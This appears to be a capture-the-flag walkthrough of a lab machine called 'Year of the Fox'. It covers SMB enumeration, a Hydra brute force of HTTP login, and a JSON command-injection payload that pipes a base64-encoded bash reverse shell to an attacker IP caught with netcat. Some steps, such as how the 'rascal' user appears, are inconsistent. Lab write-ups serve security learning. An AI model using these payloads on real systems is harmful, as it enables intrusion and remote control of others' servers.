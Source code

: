 # yotf-writeups

"Year of the Fox" - exploit vulnerabilities in a target machine. 
### Reconnaissance

Begin by scanning the target machine to identify open ports and services.
```bash
nmap -A -T4 10.10.245.124
```

**Output:**
```
Nmap scan report for 10.10.245.124
Host is up (0.19s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth:
| HTTP/1.1 401 Unauthorized
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX
```

The scan reveals:
- **Port 80**: Apache HTTP server requiring basic authentication.
- **Ports 139 and 445**: Samba services running.

### Enumerating Samba Shares

Use `enum4linux` to enumerate information from the Samba service.

```bash
enum4linux 10.10.245.124
```

**Output:**
```
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Oct  9 11:04:01 2020

Target ........... 10.10.245.124
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

Enumerating Workgroup/Domain on 10.10.245.124
[+] Got domain/workgroup name: YEAROFTHEFOX

Nbtstat Information for 10.10.245.124
Looking up status of 10.10.245.124
        YEAR-OF-THE-FOX <00> -         B <ACTIVE>  Workstation Service
        YEAR-OF-THE-FOX <03> -         B <ACTIVE>  Messenger Service
        YEAR-OF-THE-FOX <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        YEAROFTHEFOX    <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        YEAROFTHEFOX    <1d> -         B <ACTIVE>  Master Browser
        YEAROFTHEFOX    <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

Session Check on 10.10.245.124
[+] Server 10.10.245.124 allows sessions using username '', password ''

Getting domain SID for 10.10.245.124
Domain Name: YEAROFTHEFOX
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

OS information on 10.10.245.124
[+] Got OS info for 10.10.245.124 from smbclient:
[+] Got OS info for 10.10.245.124 from srvinfo:
        YEAR-OF-THE-FOXWk Sv PrQ Unx NT SNT year-of-the-fox server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03

Users on 10.10.245.124
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: fox      Name: fox       Desc:

user:[fox] rid:[0x3e8]

Share Enumeration on 10.10.245.124
        Sharename       Type      Comment
        ---------       ----      -------
        yotf            Disk      Fox's Stuff -- keep out!
        IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

Attempting to map shares on 10.10.245.124
//10.10.245.124/yotf    Mapping: DENIED, Listing: N/A
//10.10.245.124/IPC$    [E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
```

Key findings:
- **User**: `fox`
- **Share**: `yotf` (access denied)

### Accessing the Samba Share

Attempt to access the `yotf` share using the identified username.

```bash
smbclient //10.10.245.124/yotf -U fox
```

**Output:**
```
Enter WORKGROUP\fox's password:
Try "help" to get a list of possible commands.
smb: \>
```

Successfully accessed the share.

### Listing Files in the Share

List the contents of the `yotf` share.

```bash
smb: \> ls
```

**Output:**
```
  .                                   D        0  Sat Oct  3 14:20:17 2020
  ..                                  D        0  Sat Oct  3 14:20:17 2020
  flag.txt                            N       32  Sat Oct  3 14:20:17 2020
```

Found `flag.txt`.

### Retrieving the First Flag

Download the `flag.txt` file.

```bash
smb: \> get flag.txt
```

**Output:**
```
getting file \flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```


---

### Initial Enumeration with `enum4linux`
- **Command:** `enum4linux -a 10.10.245.124`
  - `enum4linux` was used to enumerate information about users and groups on the target SMB server.
  - Output revealed the following users:
    - `fox`
    - `rascal`
  - Discovered shared resources and SID enumeration for further investigation.


### Brute-forcing Login Credentials
- Target user: `rascal`
- **Command:** `hydra -l rascal -P rockyou.txt 10.10.245.124 http-head /`
  - Hydra brute-forced the HTTP login with the `rascal` username using the `rockyou.txt` password list.
  - Discovered password: **`080889`**


### Web Login and Authentication
- Credentials (`rascal:080889`) were used to authenticate on the target web application.
- Exploitation of a vulnerable PHP endpoint (`/assets/php/search.php`) was attempted.


### Reverse Shell Exploitation
- Exploited a command injection vulnerability by sending payloads to the PHP endpoint.
- Initial payload attempted to execute commands, e.g.:
  ```json
  {"target":"\";ls -la\n"}
  ```
- Modified payload to establish a reverse shell:
  ```json
  {"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjgxLjYyLzEyMzQgMD4mMQo= | base64 -d | bash \n"}
  ```
  - **Explanation:**
    - The base64-encoded payload was decoded and executed via `bash` to spawn a reverse shell.


### Setting Up Listener for Reverse Shell
- **Command:** `nc -nvlp 1234`
  - Set up a listener on the attacker's machine using Netcat.

- When the payload executed, the reverse shell connected back:
  ```bash
  connect to [10.9.81.62] from (UNKNOWN) [10.10.245.124] 58138
  ```


### Navigating the Server
- The reverse shell provided access as the `www-data` user.
- Commands executed:
  ```bash
  cd /var/www
  ls
  cat web-flag.txt
  ```
  - Retrieved the web flag: **`THM{Nzg2ZWQw*************************}`**


### Exploring Further (Post Flag Retrieval)
- Additional enumeration:
  - Found encoded credentials in `creds2.txt`:
    ```plaintext
    LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAXUTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=
    ```
  - Checked for active connections using `netstat -ano`.
  - Attempted to use `socat` for further pivoting but it was not installed on the system.

> This walkthrough highlights the steps taken to achieve initial access, escalate to a reverse shell, and retrieve the flag effectively.
